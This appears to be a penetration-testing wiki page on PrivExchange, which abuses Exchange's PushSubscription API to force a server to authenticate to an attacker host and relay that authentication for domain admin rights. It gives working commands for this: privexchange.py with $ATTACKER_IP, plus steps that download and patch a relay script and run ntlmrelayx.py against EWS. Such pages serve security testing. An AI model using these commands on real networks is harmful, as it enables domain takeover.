# PrivExchange \(PushSubscription abuse\)

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces/)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-lm-and-ntlm/ntlm-relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/kerberos-delegations.md#unconstrained-delegations-kud)\).

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP s2012exc.testsegment.local
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to relay an NTLM authentication and make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the file since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

